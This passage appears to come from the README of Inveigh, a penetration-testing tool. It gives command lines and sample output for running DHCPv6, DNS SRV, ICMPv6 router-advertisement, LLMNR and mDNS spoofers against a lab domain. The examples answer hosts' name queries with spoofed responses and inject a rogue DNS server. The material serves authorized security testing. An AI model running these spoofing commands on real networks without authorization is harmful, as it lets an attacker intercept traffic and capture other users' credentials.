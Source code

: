```
.\Inveigh.exe -dhcpv6 y -local y
...
[+] Spoofer Options [Repeat Enabled | Local Attacks Enabled]
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
```
### <a name="DNS"></a>DNS
Spoof SRV requests in addition to A.
```
.\Inveigh.exe -dnstypes A,SRV -dnshost fake.lab.inveigh.org
...
[+] DNS Listener [Types A:SRV]
...
[+] [23:21:05] DNS(SRV) request [_ldap._tcp.dc._msdcs.lab.inveigh.org] from fe80::242d:f99e:7534:b46f%2 [response sent]
```
### <a name="ICMPv6"></a>ICMPv6
Send ICMPv6 packets to inject a secondary IPv6 DNS server on local subnet systems.
```
.\Inveigh.exe -icmpv6 y
...
[+] ICMPv6 Router Advertisement [Option DNS | Interval 200 Seconds]
...
[+] [23:35:46] ICMPv6 router advertisement with DNSv6 sent to [ff02::1]
```
Send ICMPv6 packets to inject an additional DNS search suffix on local subnet systems.
```
.\Inveigh.exe -icmpv6 y -dnssuffix inveigh.net
...
[+] ICMPv6 Router Advertisement [Option DNS Suffix | Interval 200 Seconds]
...
[+] [23:41:17] ICMPv6 router advertisement with DNS Suffix sent to [ff02::1]
```
### <a name="LLMNR"></a>LLMNR
Spoof AAAA requests instead of A.
```
.\Inveigh.exe -llmnrtypes AAAA
...
[+] LLMNR Listener [Type AAAA]
...
[-] [23:23:38] LLMNR(A) request [test] from fe80::bd92:a800:60d0:8deb%2 [type ignored]
[-] [23:23:38] LLMNR(A) request [test] from 10.10.2.201 [type ignored]
[+] [23:23:38] LLMNR(AAAA) request [test] from 10.10.2.201 [response sent]
[+] [23:23:38] LLMNR(AAAA) request [test] from fe80::bd92:a800:60d0:8deb%2 [response sent]
```
### <a name="mDNS"></a>mDNS
Start mDNS spoofer and send unicast responses to QM requests.
```
.\Inveigh.exe -mdns y
...
[+] MDNS Listener [Questions QU:QM | Type A]
...
[+] [23:25:58] mDNS(QM)(A) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [response sent]
[+] [23:25:58] mDNS(QM)(A) request [test.local] from 10.10.2.201 [response sent]
[-] [23:25:58] mDNS(QM)(AAAA) request [test.local] from 10.10.2.201 [type ignored]
[-] [23:25:58] mDNS(QM)(AAAA) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [type ignored]
```
Start mDNS spoofer and send multicast responses to QM requests.
```
.\Inveigh.exe -mdns y -mdnsunicast n
...
[+] MDNS Listener [Questions QU:QM | Type A]
...
```